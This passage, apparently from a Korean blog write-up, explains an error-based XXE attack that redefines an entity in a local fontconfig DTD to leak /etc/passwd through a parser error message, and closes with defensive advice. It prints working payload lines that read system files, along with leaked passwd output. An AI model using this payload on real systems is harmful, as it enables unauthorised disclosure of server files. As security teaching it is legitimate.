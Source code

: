 ```
{"error":"/empty/root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/bin/nologin
daemon:x:2:2:daemon:/:/usr/bin/nologin

(No such file or directory)
"}

```

## Exploit 설명

첫번째로 local_dtd entity 에 fonts.dtd 파일을 읽어 가지고 있습니다.

```
<!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
```

expr entity 를 ‘ ’ 의 내용으로 재정의(override) 합니다.

```
<!ENTITY % expr ‘go)>  exploit code  '>
```

이미 정의된 <!ELEMENT test(…)> 의 내용이 <!ELEMENT test(go)> exploit code > 로 재정의 되면서

local_dtd entity 호출시 해당 exploit code가 실행 됩니다.

Exploit code는 처음 설명 드린 것 처럼 error 코드에 file 내용을 출력하는 코드입니다.
여기서 % 나 & 를 유니코드 값으로 표현한 이유는 expr이 재정의 되고 난 후에 실행이 되도록 해야하기 때문입니다.

문자 그대로 입력하면 치환이 되기 전에 실행 되버려서 파싱 에러가 발생했습니다.

```
	<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
    	<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///empty/&#x25;file;&#x27;>"> 
    	&#x25;eval; 
    	&#x25;error;
```

---

# 어떻게 방어할 것인가

가장 안전한 방법은 Apache에서 http://apache.org/xml/features/disallow-doctype-decl 

옵션을 주는것 처럼 XXE 취약점이 발생하지 않도록 외부 Entity 사용을 막는것이라 생각됩니다.

DTD 비활성화가 불가능 하다면 XML Parser를 안전하게 구현 해야 할 것입니다.

---

# 참고자료

0. BLOG

